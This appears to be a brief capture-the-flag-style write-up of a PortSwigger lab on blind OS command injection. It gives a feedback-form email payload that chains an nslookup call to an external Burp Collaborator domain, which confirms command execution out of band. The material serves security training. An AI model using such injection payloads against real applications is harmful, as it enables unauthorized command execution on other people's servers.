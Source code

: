 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/1ab126b2-2168-409d-a4d9-bace7cb8ca6c)

## Solution:

Use Burp Suite to intercept and modify the request that submits feedback.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/01f78849-d60f-48e5-90a5-e8f6191a5587)

Modify the email parameter, changing it to:

email=`x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/14ae8e37-d465-4c65-a06a-a6e75dd98441)

Then go to Burp Collaborator press poll now.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/664bcabb-4126-4e3b-9d68-8841f3f6cffe)

We could see that it performed the dns request to our domain. Which means that it is vulnerable to Blind Command injection. Lab Solved

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/9fe34003-1001-4e4f-8d64-b319968ea874)


